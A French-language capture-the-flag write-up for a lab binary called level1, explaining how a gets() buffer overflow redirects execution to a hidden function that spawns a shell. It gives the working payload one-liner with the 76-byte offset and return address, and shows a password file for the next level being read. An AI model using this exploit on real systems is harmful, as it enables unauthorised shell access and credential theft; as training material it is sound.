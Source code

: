 # LEVEL 1

Nous avons acces a un executable, `level1`, en l'executant, nous voyons qu'il attends un input, mais quand on envoie un input, il ne renvoie rien.

En ouvrant l'exécutable avec ghidra, nous voyons ca:
![ghidra](ghidra.png)

- Une fonction run(qui n'est pas appelée), mais qui execute avec system "/bin/sh".
- Une fonction main

En regardant la fonction main, nous qu'elle utilise la fonction `gets`, qui contient une faille de sécurité, car elle ne vérifie pas la taille de l'input, et donc on peut faire un buffer overflow. Donc faire en sorte que après le main, au lieu de retourner normalement, il execute la fonction run.

Après quelques tests pour connaitre la taille du buffer, on voit qu'il est de 76, donc on va devoir mettre 76 caractères, puis l'adresse de la fonction run, qui est `0x08048444` en little endian.

```bash
python -c "print('42'*38 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

On a donc bien réussi a faire un buffer overflow, mais /bin/sh étant lancé avec `system`, il return directement, donc il faut trouver un moyen de faire en sorte que le programme continue après le `system("/bin/sh")`.
En utilisant `cat`, on peut faire en sorte que le programme continue après le `system("/bin/sh")`.

```bash
(python -c "print('42'*38 + '\x44\x84\x04\x08')";cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
